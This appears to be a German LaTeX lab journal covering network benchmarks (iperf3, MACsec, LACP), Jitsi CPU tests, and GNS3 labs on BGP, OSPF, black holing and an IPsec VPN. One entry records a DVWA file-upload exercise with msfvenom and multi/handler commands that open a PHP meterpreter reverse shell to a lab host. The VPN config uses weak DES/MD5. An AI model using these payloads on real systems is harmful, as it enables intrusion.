- Danach Sender und Empfänger auf die gegenüberliegenden Seiten der LACP Brücke/Verbindung gesteckt
\begin{lstlisting}[language=bash]
Laptop 1 Server mit drei USB Netzwerkkarten
$ iperf3 -s (192.168.111.1/24)
$ iperf3 -s -p5202 (192.168.112.42/24)
$ iperf3 -s -p5203 (192.168.113.60/24)
$ iperf3 -s -p5204 (192.168.114.177/24)

Laptop 2 erstes Netz
$ iperf3 -c 192.168.111.1 -t600
Laptop 3 zweites Netz
$ iperf3 -c 192.168.112.42 -t600 -p5202
Laptop 4 drittes Netz
$ iperf3 -c 192.168.113.60 -t600 -p5203
Laptop 5 viertes Netz
$ iperf3 -c 192.168.114.177 -t600 -p5204
\end{lstlisting}
- bei zwei Verbindungen erreicht macsec ~93Mbit/s jeweils
- drei Verbindungen verteilt sich zu 100 + 2*50 Mbit/s
- vier Verbindungen 2*50Mbit/s + 2*50Mbit/s
\begin{table}
	\caption{10min LACP iperf3 mit MACSec}
	\label{tab:LACPMACSec}
	\centering
	\begin{tabular}{lr}
		\toprule
		Port & Bandwidth in MBit/s\\
		\midrule
		5201      & 35.8      \\
		5202     & 51.6     \\
		5203      & 41.3      \\
		5204     & 56.6     \\
		\bottomrule
		5201 +5204     & 35.8 + 56.6 = 92.4      \\
		5202 +5203     & 51.6 + 41.3 = 92.9      \\
	\end{tabular}
\end{table}
- Verbindung 1 und 4 teilen sich; 35.8 + 56.6 = 92.4
- Verbindung 2 und 3 teilen sich; 51.6 + 41.3 = 92.9

\begin{table}
	\caption{10min LACP iperf3 ohne MACSec}
	\label{tab:LACPohneMACSec}
	\centering
	\begin{tabular}{lr}
		\toprule
		Port & Bandwidth in MBit/s\\
		\midrule
		5201      & 45.2      \\
		5202     & 50.5    \\
		5203      & 44.3      \\
		5204     & 49.3     \\
		\bottomrule
		5201 +5204     & 45.2 + 49.3 = 94.5      \\
		5202 +5203     & 50.5 + 44.3 = 94.8      \\
	\end{tabular}
\end{table}

- Windows file sharing über lan: netzwerkverbindungen --> erweiterte fregabeeinstallungen anstellen
- ordner freigeben und berechtigungen setzen 
- be anderem pc pfad \path{\\PC_SCH01\\iperf3-win1414\}
	
\subsubsection{07.04}
-Tabelle \ref{tab:KupferMACSec} stellt Messung 10min einfache Verbindung über Kupferkabel 1GBit/s mit MACSec dar
\begin{table}
	\caption{10min Kupferkabel iperf3 mit MACSec}
	\label{tab:KupferMACSec}
	\centering
	\begin{tabular}{llr}
		\toprule
		Interval& Transfer  & Bandwidth \\
		\midrule
		0.00-600.04 sec &65.2 GBytes      & 934 MBits/sec     \\
		\bottomrule
	\end{tabular}
\end{table}
-Tabelle \ref{tab:KupferohneMACSec} zeigt Messung 10min einfache Verbindung über Kupferkabel 1GBit/s ohne MACSec --> exakt gleiche Werte
\begin{table}
	\caption{10min Kupferkabel iperf3 ohne MACSec}
	\label{tab:KupferohneMACSec}
	\centering
	\begin{tabular}{llr}
		\toprule
		Interval& Transfer  & Bandwidth \\
		\midrule
		0.00-600.04 sec &65.2 GBytes      & 934 MBits/sec     \\
		\bottomrule
	\end{tabular}
\end{table}


-gns3 webui mit host only adapter ip port 3080
- gns3 gui, um router images zu importieren \url{https://docs.gns3.com/1QXVIihk7dsOL7Xr7Bmz4zRzTsJ02wklfImGuHwTlaA4/index.html}
- versucht router mit zweitem netzwerkadapter nat zum internet zu verbinden

\subsubsection{08.04}
- jitsi test laptops vorbereitet 2*i5 mit windows, 1*i7 windows 1*i7 ubuntu
-gns3 iosvl2 image für switch, lacp eingerichet, ausfallsicherheit klappt
- virtualbox images in die topologie eingefügt, win2k8 server metasploit und 2*kali linux, alles im selben netz über switch, können sich anpingen
-iperf aber nur 1.75mbits von kali(vm)-->switch<--kali(vmlinked base und headless)
- nur virtualbox kali zu host hatte 900mbits

\subsubsection{09.04}
- gns mit L2 IOU verliert immer die Verbindung zum Switch nach 30s iperf3, erreicht 40mbits
- drei Kali LInux VirtualbBox VMs und einmal win10 Virtualbox VM eingebunden
- nochmals LACP nachgestellt, kann aber nicht getestet werden wegen cisco licensen für gns3/verbindungsabbruch
- aufgabe backbone area von planet ic nachstellen mit dynamips c7200 router und BGP und OSPF

\subsection{7. Woche}
\subsubsection{14.04}
-vier Laptops mit firewall nach außen freigeschaltet
- in Tabelle \ref{tab:JitsiVergleich} haben alle Anbieter sehr ähnliche Werte
-i5 win 172.16.99.100 
 i5 Präsentation/Win 172.16.99.175 OHNE WEBCAM
 i7 win 172.16.99.176
 i7 linux 172.16.99.79

- \url{chrome://gpu} linux schlechter als windwos da kein hardware accelerated video decode -\url{https://www.omgubuntu.co.uk/2018/10/hardware-acceleration-chrome-linux} chrome hat auf linux kein interesse dies zu implementieren
 
 \begin{table}
 	\caption{Vergleich Gesamt CPU Auslastung in \% jitsi vier Teilnehmer}
 	\label{tab:JitsiVergleich}
 	\centering
 	\begin{tabular}{lccc}
 		\toprule
 		Laptop & 192.168.183.158& meet.jit.si  & copendia \\
 		\midrule
 		i7 linux &50 &55      & 53     \\
 		i7 win &31 &33      & 33     \\
 		i5 Präsentation/Win &31 &31      & 31     \\
 		i5 Win &50 &56     & 52     \\ 		
 		\bottomrule
 	\end{tabular}
 \end{table}

-ospf in gns3 mit backbone area nachstellen \url{https://docs.gns3.com/1d1huu6z9-wWGD_ipTSQZqy2mpaxiqzymu-YQo6at_Jg/index.html}

\subsubsection{15.04}
-gns3 backbone area mit drei c7200 routern und ospf und bgp nachgebaut, sodass sie ihre loopback adressen pingen können
-bgp configuring peer process und bgp routing process abschnitte auf allen routern durchführen und ips und Autonomous system(AS) anpassen \url{https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/iproute_bgp/configuration/15-mt/irg-15-mt-book.pdf}
\begin{lstlisting}[language=bash]
BGPRoutingProcess
Device>enable
Device#configure terminal
Device(config)#router bgp 40000
Device(config-router)#network 2.2.2.2 mask 255.255.255.255
Device(config-router)#end
Device#show ip bgp
\end{lstlisting}
\begin{lstlisting}[language=bash]
BGPPeer
Device>enable
Device#configure terminal
Device(config)#router bgp 40000
Device(config-router)#neighbor 20.1.1.3 remote-as 45000
Device(config-router)#address-family ipv4 unicast
Device(config-router-af)#neighbor 20.1.1.3 activate
Device(config-router)#end
Device#show ip bgp
Device(config-router-af)#show ip bgp neighbors
\end{lstlisting}

-ospf \url{https://docs.gns3.com/1d1huu6z9-wWGD_ipTSQZqy2mpaxiqzymu-YQo6at_Jg/index.html}
-auf allen geräten interfaces konfigurieren
\begin{lstlisting}[language=bash]
Configure Layer 3 addressing on the devices
R1(config)# int fa0/0
R1(config-if)#no shut
R1(config-if)#ip add 10.1.1.1 255.255.255.0
R1(config-if)#int loop 0
R1(config-if)#ip add 1.1.1.1 255.255.255.255
R1(config-if)# end
\end{lstlisting}
-ospf einrichten auf allen geräten
\begin{lstlisting}[language=bash]
R1(config)#router ospf 1
R1(config-router)#router-id 1.1.1.1
R1(config-router)#network 0.0.0.0 255.255.255.255 area 0
R1(config-router)#end
note:  using "network 0.0.0.0 255.255.255.255 area 0" in ospf is a shortcut to enable ospf on all interfaces in an ospf area. It's not always desirable in the real world, but is fine for lab purposes
R2#sh ip ospf neigh
R1#sh ip route
\end{lstlisting}
-in tabelle \ref{tab:Jitsi1314} jitsi testkonferenz mit 13/14 teilnehmern und performancewerte der vier neu aufgestzten laptops aufgeschrieben
 \begin{table}
	\caption{Vergleich Gesamt CPU Auslastung in \% jitsi 13/14 Teilnehmer}
	\label{tab:Jitsi1314}
	\centering
	\begin{tabular}{lccc}
		\toprule
		Laptop & 192.168.183.158& qualität niedrig  \\
		\midrule
		i7 linux &67 &60          \\
		i7 win &53 &47           \\
		i5 Präsentation/Win &72 &60        \\
		i5 Win &88 &66        \\ 		
		\bottomrule
	\end{tabular}
\end{table}
\subsubsection{16.04}
-Einrichtung Remote Server gns3 auf testlab
- ubuntu server network 192.168.183.0/24, 192.168.183.181, gateway 192.168.183.1, dns 195.98.223.1 und dann installscripts \url{https://docs.gns3.com/1c2Iyiczy6efnv-TS_4Hc7p11gn03-ytz9ukgwFfckDk/index.html}
- web ui zugang auf 192.168.183.181:3080
- gns3-converter um remote triggered Black Holing projekt zu importieren
\url{https://blog.pierky.com/gns3-lab-remote-triggered-black-holing/}
- in vim .net File alle Verbindungen entfernt, da Ethernet port mit serial port connected war
- rm -r Downloads*
-gns3-converter ~/Downloads/RTBH.net
-vim RTBH.net
-gns3 neustarten und open project
-mit Eric Switch im RZ2 eingebaut
\subsubsection{17.04}
-projekt vom blog auf remote gns3 server mit c7200 routern nachgebaut
- blackholing global oder bestimmte isp funktioniert
-nachbau backbone area über draw.io bild und versuch blackholing damit zu simulieren

\subsection{8. Woche}
\subsubsection{20.04}
-KVM wieder eine KVM starten zu können auf HPV1 folgendes umgesetzt in Proxmox bewirkt flag vmx|svm bei /proc/cpuinfo
- GNS3 Project über webui exportieren und in neuem server wieder über webui importieren
- nicht die images mit scp hinüberkopieren, sondern auf Client mit gns3-gui das template für Router/Switch erstellen und damit hochladen
- dann projekt über web ui exportieren und dann wieder importieren
-Szenario Remote Triggerd Black Holing für Planet Back Bone Area nachgebaut bis Schritt 2.Routing der rtbh configs, also 3 AS für bgp in den routern und die ip adressen verteilt
\subsubsection{21.04}
-mit eric asa im rz eingebaut
-linphone für desktop eingerichtet sip:2171@troubadix.planet-ic.de <sip:troubadix.planet-ic.de;transport=udp> dann oben account auswählen und passwort eingeben
-backbone area planet in gns3 ohne core router nach blog-beispiel weitergebaut \url{https://blog.pierky.com/gns3-lab-remote-triggered-black-holing/}
- router konfigurationen für ISP Edge und Cust Router mit ip adressen und bgp mit filter list out für edge router
-access list und route maps nummer am ende 10/20/30 ist einfach nummerierung \url{https://www.cisco.com/c/en/us/support/docs/ip/border-gateway-protocol-bgp/49111-route-map-bestp.html} match und set bei route-maps

\subsubsection{22.04}
-versuch customer triggered black holing anzuwenden, da advertising der bgp prefix routen nicht geklappt hat \url{https://blog.pierky.com/gns3-labs-bgp-customer-triggered-black-holing/}
- gelernt über route maps und bgp verbindungen mit neighbor angaben auf beiden routerseiten(Core und Edge), haben bei customer black holing aber auch nicht funktioniert
- letztlich doch mit der remote variante funktioniert, bb05 ist core router mit den vier/fünf RTBH route map regeln, redistributed die static route map und baut die Edge peer-group auf
- immer mit sh ip bgp $prefix$ oder sh ip route/cef auf den edge routern die verbindung prüfen und dann von ISP ping 192.168.10.1 source lo0
- bei den eingehenden edge routern mit der route map auf community und as path prüfen und dann auf 192.0.2.1 die wiederum auf null0 umleitet
- BGP-CUST1 aus den beispielen kann vernachlässigt werden, nur damit customer nur ihre eigenen Netze anbieten
- es war zwingend erforderlich das ospf 300 netz für core und edges einzurichten, erst dann ging die Übergabe der bgp prefix routen, die bei Core eingegeben werden --> ip route 192.168.10.1 255.255.255.255 null0 tag 100 bisher getestet
-lag möglicherweise an set origin igp
\subsubsection{23.04}
-weitere Versuche mit customer black holing auf 192.168.183.181 projekt blackholing
- route wird von cust 10 angegeben, Edge3 darf diese nicht in einer eingehenden routemap mit set verändern, sondern nur mit match prüfen und dann weiter durchreichen. Sobald set ip next-hop 192.0.2.1 gemacht wird, wird die route nicht mehr an edge1 und edge2 und auch nicht an core geschickt.  set community no-export no-advertise geht nur ohne no-advertise und dann wird bei sh ip bgp next hop 192.168.0.2 statt 192.0.2.1 genommen.
- problem ist die weiterverteilung der routen über bgp, so dass jede node entsprechend seiner community die regel beachtet oder denied
- das remote black holing triggern über core funktioniert weiterhin bei 181 auf aufgabenstand 4 der zusammengeschusterten rtbh configs und bei 182 noch auf den ursprünglichen RTBH 3 configs
- bei 182 mit planet backbone project ist der core router code in einen edge router reingetan und das isp blackholing funktioniert, allerdings ist global connect(der core/edge router) immer gesperrt und nicht entsprechend der community(bei 102/199 sollte er durchlassen, tut er aber nicht)
- customer sind nicht über einen edge router verbunden, sondern direkt über switch deswegen wird durch tag 199 nicht das andere customer netz geblackhol'ed, sondern für den dritten isp genutzt (DTAG)
-mit eric server ausgebaut und rambestückungen getestet
\section{Mai}
\subsection{10. Woche}
\subsubsection{04.05}
-andreas gns3 einführung gegeben
- sudo gns3restore hat gns3 virtualbox vm zerschossen, wieder zum informations screen mit zweimal exit oder logout
- kopieren der projekte von remote server zu lokal
- dazu export und import, base images inkludieren hat glaub ich nichts gebracht, das musss trotzdem als template in der gui erstellt und dadurch hochgeladen werden
-vorbereiten von mdk test mit bgp ausfallsichere routen
\subsubsection{05.05}
-nachbau eines VPN mit IPSec mittels blog tutorial beitrag \url{https://www.chennaicisco.com/2013/11/configure-site-to-site-vpn-in-cisco.html}
- paper zu vpn gelesen und nachgestellt \url{https://www.researchgate.net/publication/320536838_Implementation_of_IPsec-VPN_tunneling_using_GNS3}
-topologie in mdktest nachgestellt
-ip's und routingprotokoll rip aufgebaut, dann bei h0 und b0 die cryptoiskmp befehle übernommen
- ping von Qemu1 zu Qemu2 ging vorher nicht, nach der vpn einrichtung ging der ping nach kurzem aufbau von authentifizierung 
- leitung zwischen h0 und erstem isp router mit netz 30.0.0.1 über packet capture mittels wireshark inspiziert
- traffic ist als esp paket verschlüsselt
-projekt 192.168.183.182 $mdk_test_vpn$
\subsubsection{06.05}
-zum vpn lernen gedacht von 192.168.183.156:8003 ein vpn einzurichten und das dann von meinen desktop zu verbinden mittels des remote server install scripts von gns3 ab dem vpn abschnitt \url{https://docs.gns3.com/1c2Iyiczy6efnv-TS_4Hc7p11gn03-ytz9ukgwFfckDk/}
-testlab per vpn mit dem mitarbeiter netz verbinden wurde aber nicht gutgeheißen
- andere aufgabe wäre mit kali linux bei der dvwa eine command injection auszuführen und dann über die meterpreter console portweiterleitungen von 3306 zu der mysql datenbank zu machen
-im proxmox ne kali linux vm erstellen um auf 192.168.183.156 zuzugreifen
- meterpreter zugriff hat geklappt \url{https://www.hackingarticles.in/hack-file-upload-vulnerability-dvwa-bypass-security/}
- mit elinks auf kali ohne gui den webzugriff zu DVWA, Datei hack.php hochgeladen, payload gestartet und danach auf \url{192.168.183.156/xss/DVWA/hackable/uploads/hack.php} zugegriffen, wodurch die meterpreter session entsteht
\begin{lstlisting}[language=bash]
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.183.183 lport=3333 -f raw
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.183.183
msf5 exploit(multi/handler) > set lport 3333
msf5 exploit(multi/handler) > run
\end{lstlisting}
-portforwarding zugriff auf mysql datenbank hat nicht funktioniert \url{https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/}
\subsubsection{07.05}
-installation windows subsystem linux (WSL) mit \url{https://docs.microsoft.com/de-de/windows/wsl/install-win10}, einmal powershell line ausführen und dann aus windows store herunterladen, starten über windows store app
- für weiterleitung der gui in ubuntu ubuntu-desktop installieren,\url{https://www.dev-insider.de/effizientes-arbeiten-mit-wsl-a-762971/} windows X server einrichten, also VcXsrv auf windows installieren
- dann \texttt{export DISPLAY=:0}, wodurch xeyes als fenster in windows ausgegeben wird, zusätzlich noch windows defender ausschalten
- wsl2 installieren ging nicht wegen Organisations Richtlinien, wsl 1 hat Probleme mit file system  und ist dort sehr langsam, z.B. beim entpacken von zip
- mit 18.04 ging die standard pidgin installation und texstudio, was bei 20.04 nicht ging
-flatpak installationen zuerst flatpak und repository hinzufügen, dann app als flatpak install und run durchführen, ging wegen wls berechtigungen für pidgin nicht
-firefox ging in 20.04 wenn man firefox 69 nimmt \url{https://github.com/microsoft/WSL/issues/4964} und dieses über ubuntuzilla mit 69.0.3 herunterlädt \url{https://askubuntu.com/questions/661186/how-to-install-previous-firefox-version}, dann \texttt{sudo chmod -R ugo-w} \path{/usr/bin/firefox} auf readonly, damit er nicht automatisch updated
\begin{lstlisting}[
	caption={fehlende latex packages},
	label=Latex Packages,
	language=bash]

apt-file search regexpatch.sty
	sudo apt install texlive-latex-extra              
apt-file search cfr-lm.sty  
	sudo apt install texlive-fonts-extra 
apt-file search textcmds.sty  
	sudo apt install texlive-bibtex-extra   
apt-file search siunitx.sty 
	sudo apt install texlive-science
\end{lstlisting}
\subsubsection{08.05}
-bericht und themenzusammenfassung weiter bearbeitet
- vektor screenshots mit \texttt{gtk-vector-screenshot} geht mit wireshark-gtk und terminals von linux, gns3 topologie erstmal nicht obwohl aus svg bestehend
\begin{lstlisting}[
caption={Routerconfig IPSec VPN},
label=Routerconfig,
language=bash]
crypto isakmp policy 10
 hash md5
 authentication pre-share
 group 2
crypto isakmp key security address 40.0.0.2 255.0.0.0
!
!
crypto ipsec transform-set hoset esp-des esp-md5-hmac
!
crypto map homap 10 ipsec-isakmp
 set peer 40.0.0.2
 set transform-set hoset
 match address 101
!
\end{lstlisting}
\begin{figure}
	\centering
	
\includegraphics[width=0.8\textwidth]{images/ping.pdf}
	\caption{Tunnel Ping}
	\label{fig:ping}
\end{figure}
\begin{figure}
	\centering
